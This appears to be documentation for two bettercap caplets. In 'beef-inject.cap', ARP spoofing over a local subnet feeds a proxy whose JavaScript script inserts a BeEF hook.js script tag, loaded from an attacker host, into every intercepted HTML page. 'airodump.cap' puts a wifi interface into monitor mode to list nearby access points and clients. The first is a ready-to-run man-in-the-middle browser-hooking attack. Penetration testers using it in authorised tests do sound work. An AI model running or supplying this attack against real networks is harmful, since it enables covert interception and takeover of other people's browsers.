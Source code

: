 #### beef-inject.cap

Use a proxy script to inject a BEEF javascript hook:

```sh
# targeting the whole subnet by default, to make it selective:
#
#   sudo ./bettercap -caplet caplets/beef-active.cap -eval "set arp.spoof.targets 192.168.1.64"

# inject beef hook
set http.proxy.script caplets/beef-inject.js
# redirect http traffic to a proxy
http.proxy on
# wait for everything to start properly
sleep 1
# make sure probing is off as it conflicts with arp spoofing
arp.spoof on
```

The `caplets/beef.inject.js` proxy script file:

```javascript
function onLoad() {
    console.log( "BeefInject loaded." );
    console.log("targets: " + env('arp.spoof.targets'));
}

function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace( 
                '</head>', 
                '<script type="text/javascript" src="http://your-beef-box:3000/hook.js"></script></head>' 
            ); 
        }
    }
}
```

#### airodump.cap

Put a wifi interface in monitor mode and listen for frames in order to detect WiF access points and clients.

```
set $ {by}{fw}{env.iface.name}{reset} {bold}» {reset}
set ticker.commands clear; wifi.show

# uncomment to only hop on these channels:
# wifi.recon.channel 1,2,3

wifi.recon on
ticker on
events.clear
clear
```
